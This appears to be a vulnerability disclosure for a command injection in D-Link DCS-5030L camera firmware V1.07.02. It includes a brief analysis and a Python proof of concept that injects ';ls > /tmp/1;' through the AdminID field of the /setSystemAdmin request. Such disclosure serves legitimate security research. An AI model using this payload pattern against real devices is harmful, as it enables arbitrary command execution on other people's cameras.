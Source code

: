 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_42CBE0

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](3.png)

Login and set ConfigReboot,we can get into line 67.

![](4.png)

Finally we could execute aribitrary command via parameter Var.

## POC

```
url = "http://192.168.1.13/setSystemAdmin"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'AdminID':';ls > /tmp/1;',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
